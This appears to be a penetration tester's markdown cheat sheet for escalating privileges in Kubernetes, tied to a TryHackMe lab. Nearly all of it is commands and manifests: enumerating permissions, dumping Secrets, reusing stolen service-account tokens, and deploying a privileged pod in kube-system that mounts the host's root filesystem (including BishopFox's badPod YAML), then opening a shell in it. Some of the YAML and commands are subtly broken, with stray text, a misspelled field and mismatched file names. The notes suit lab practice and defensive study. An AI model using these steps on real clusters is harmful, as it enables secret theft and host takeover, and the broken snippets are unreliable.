 
For [[Kubernetes]] information follow the link

No `microk8s` no problem get official `kubectl` binary here: [Official Kubernetes download kubectl binaries](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/); official `curl` commandage..
```bash
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"

# ARM4
curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/arm64/kubectl"

```

Enumerate permissions
```bash
microk8s kubectl auth can-i --list
# If you see:
Resources   Non-Resource URLs   Resource Names   Verbs
*.*         []                  []               [*]
# You can do anything
```

Enumerate pods and namespaces, image name
```bash
env # services are often stored as environment variables

microk8s kubectl get namespace
microk8s kubectl get pods
microk8s kubectl get pod $pod -o yaml # get the image: $field of current pod
microk8s kubectl get nodes
microk8s kubectl get deployments
microk8s kubectl get services
microk8s kubectl get ingress
microk8s kubectl get jobs
```

Find Secrets - secret values in resources called Secrets that get mounted into pods as either environment variables or files
```bash
kubectl get secrets
kubectl describe secret $secretName
kubectl get secret $secretName -o 'json'
```

Token Abuse
```bash
# /var/run/secrets/kubernetes.io/serviceaccount/token
./kubectl auth can-i --list --token=${TOKEN}
./kubectl get pods --token=${TOKEN}
./kubectl get serviceaccount --token=${TOKEN}
# execute bash on a pod
/kubectl exec -it $pod --token=${TOKEN} -- /bin/bash
```


####  Make a pod and mount away!

May require token
```bash
# /var/run/secrets/kubernetes.io/serviceaccount/token
./kubectl auth can-i --list --token=${TOKEN}
# Get the image for privesc.yml
kubectl get pods --all-namespaces -o jsonpath="{.items[*].spec.containers[*].image}" --token=${TOKEN} | tr -s '[[:space:]]' '\n' | sort | uniq -c

```
[List all container images in all namespaces](https://kubernetes.io/docs/tasks/access-application-cluster/list-all-running-container-images/)

Create a YAML file to create a pod to run as root - named kubeRevShell.yaml - [prettifer](https://onlineyamltools.com/prettify-yaml) 
```YAML
apiVersion: v1
kind: Pod
metadata:
  name: some-pod
  namespace: kube-system
spec:sed 
  containers:
    - name: shell
      image: # GET THE IMAGE NAME OF CURRENT POD
      # imagePullPolicy: IfNotPresent 
      command: ['/bin/sh']
      args: ['-c', 'sleep 300000']
      volumeMounts:
        - mountPath: /mnt
          name: hostfs
  volumes:
    - name: hostfs
      hostPath:
        path: /
  autommountServiceAccountToken: true
  hostNetwork: true
```

[BishopFox BadPod.yml](https://raw.githubusercontent.com/BishopFox/badPods/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml)
```yml
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
```

To force image pulling or not if the cluster lack internet connection set and set `image:`  to locally cached image.
```yaml
imagePullPolicy: IfNotPresent 
imagePullPolicy: Never 
imagePullPolicy: IfNotPresent 
```


Beware:
`name:` must be a lowercase RFC 1123 label.

Apply this configuration
```bash
microk8s kubectl apply -f kubeRevShell.yaml
```

Check the status of the pod
```bash
microk8s kubectl get pods -n kube-system # display kube-system namespace
```
https://tryhackme.com/room/insekube
Exec a very minimal shell, works as nested `nc` no tty... 
```bash
./kubectl exec some-pod -n kube-system --stdin --tty -- /bin/bash
# Or
./kubectl exec -it some-pod --token=${TOKEN} -- /bin/bash
```
```

Clean up yourself 
```bash
./kubectl delete -f kubeShell.yaml
```

#### Kubernetes Token Abuse

`cat /var/run/secrets/kubernetes.io/$account/token`

Pod breakout

Privilege Escape

Cloud Hacking

## References

[Online YAML prettifier](https://onlineyamltools.com/prettify-yaml)
[Official Kubernetes download kubectl binaries](https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/);
[THM Insekube Room](https://tryhackme.com/room/insekube)
[Unofficial Kubernetes Documentation](https://unofficial-kubernetes.readthedocs.io/en/latest/)